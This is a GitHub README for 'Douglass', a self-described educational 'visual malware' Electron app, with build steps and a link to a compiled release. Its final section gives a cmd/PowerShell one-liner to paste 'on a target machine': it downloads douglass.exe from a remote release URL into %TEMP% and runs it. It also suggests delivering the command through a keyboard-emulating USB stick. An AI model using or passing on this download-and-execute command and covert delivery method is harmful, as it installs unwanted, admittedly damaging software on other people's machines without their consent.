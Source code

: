 # Douglass
Simple visual malware developed for education purposes.

This program is written in Typescript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This malware is for academic purposes, the use of this software is your responsibility.
- As it's a malware, it may cause damage to your computer.

### Use with Node.js
1) Run `npm install`
2) Run `npm run start`

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `douglass.exe`

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Electron-Builder](https://www.electron.build/).
4) Run `electron-builder --win portable`.
5) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.
- `Say` - Used to tts.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Douglass/releases/download/1.0/douglass.exe" -outfile "d.exe"
d.exe
exit
```